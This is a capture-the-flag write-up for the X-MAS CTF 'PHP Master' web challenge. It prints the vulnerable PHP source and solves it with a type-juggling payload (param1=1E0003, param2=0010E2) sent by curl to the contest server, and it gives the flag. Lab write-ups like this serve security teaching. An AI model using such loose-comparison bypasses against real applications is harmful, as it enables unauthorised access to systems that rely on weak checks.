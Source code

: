 ![](./../../../assets/images/banner_xmas.png)



    	
            
# PHP Master



## Challenge Author(s):
`yakuhito`

## Description:
```
Another one of *those* challenges.
```

## Target:

`http://challs.xmas.htsp.ro:3000/`

## Objective:

Forge a payload capable of bypassing the various filters and checks in code, in order to have the flag printed.

## Difficulty/Points: 
`easy/33`

## Flag:
`X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}`
# 


# Challenge
Connecting to the web application, the page returned is:
```php

<?php

include('flag.php');

$p1 = $_GET['param1'];
$p2 = $_GET['param2'];

if(!isset($p1) || !isset($p2)) {
    highlight_file(__FILE__);
    die();
}

if(strpos($p1, 'e') === false && strpos($p2, 'e') === false  && strlen($p1) === strlen($p2) && $p1 !== $p2 && $p1[0] != '0' && $p1 == $p2) {
    die($flag);
}

?>

```
This *PHP page* extracts two parameters from the *GET request*, `param1 ($ p1)` and `param2 ($ p2)` and performs the following *checks* on them:
1. Check that the *'e'* character is not present in both *$p1* and *$p2*. 
2. Check that *$p1* and *$p2* have the same length (in number of characters).
3. Verify that *$p1* and *$p2* are different, using `PHP strict negated comparison  (! ==)`.
4. Check that the first character of *$p1* is different from the character *'0'*.
5. Check that *$p1* and *$p2* are equal, using `PHP loose comparison (==)`.

# Solver
The two parameters that respect all the previously mentioned constraints are:
`param1: 1E0003`
`param2: 0010E2`
```console
matt@grol:~$ curl -X GET "http://challs.xmas.htsp.ro:3000/index.php?param1=1E0003&param2=0010E2"
X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}
```

